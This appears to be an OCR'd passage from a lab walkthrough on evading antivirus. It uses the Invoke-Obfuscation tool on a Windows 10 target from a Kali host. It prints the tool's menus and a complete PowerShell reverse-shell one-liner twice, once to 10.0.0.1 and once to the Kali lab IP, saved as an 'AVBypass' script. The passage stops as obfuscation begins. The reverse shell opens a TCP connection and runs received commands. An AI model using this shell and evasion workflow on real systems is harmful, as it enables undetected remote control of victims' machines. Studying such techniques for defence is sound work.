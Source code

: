 ```
[*]  Show this Help Menu                          HELP,GET-HELP,?,-?,/?,MENU
[*]  Show options for payload to obfuscate        SHOW OPTIONS,SHOW,OPTIONS
[*]  Clear screen                                 CLEAR,CLEAR-HOST,CLS
[*]  Execute ObfuscatedCommand locally            EXEC,EXECUTE,TEST,RUN
[*]  Copy ObfuscatedCommand to clipboard          COPY,CLIP,CLIPBOARD
[*]  Write ObfuscatedCommand Out to disk          OUT
[*]  Reset ALL obfuscation for ObfuscatedCommand  RESET
[*]  Undo LAST obfuscation for ObfuscatedCommand  UNDO
[*]  Go Back to previous obfuscation menu         BACK,CD ..
[*]  Quit Invoke-Obfuscation                      QUIT,EXIT
[*]  Return to Home Menu                          HOME,MAIN


Choose one of the below options:

[*] TOKEN       Obfuscate PowerShell command Tokens
[*] AST         Obfuscate PowerShell Ast nodes (PS3.0+)
[*] STRING      Obfuscate entire command as a String
[*] ENCODING    Obfuscate entire command via Encoding
[*] COMPRESS    Convert entire command to one-liner and Compress
[*] LAUNCHER    Obfuscate command args w/Launcher techniques (run once at end)


Invoke-Obfuscation> 
```

Kali Linux: 192.168.213.128

Windows 10: 192.168.213.133

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

save it to /root/Desktop/AVBypass/shell.ps1.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.213.128',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```
Invoke-Obfuscation> SET SCRIPTPATH /root/Desktop/AVBypass/shell.ps1

Successfully set ScriptPath:
/root/Desktop/AVBypass/shell.ps1                                                                                                                                                     Choose one of the below options:

[*] TOKEN       Obfuscate PowerShell command Tokens
[*] AST         Obfuscate PowerShell Ast nodes (PS3.0+)
[*] STRING      Obfuscate entire command as a String
[*] ENCODING    Obfuscate entire command via Encoding
[*] COMPRESS    Convert entire command to one-liner and Compress
[*] LAUNCHER    Obfuscate command args w/Launcher techniques (run once at end)

Invoke-Obfuscation> 
```
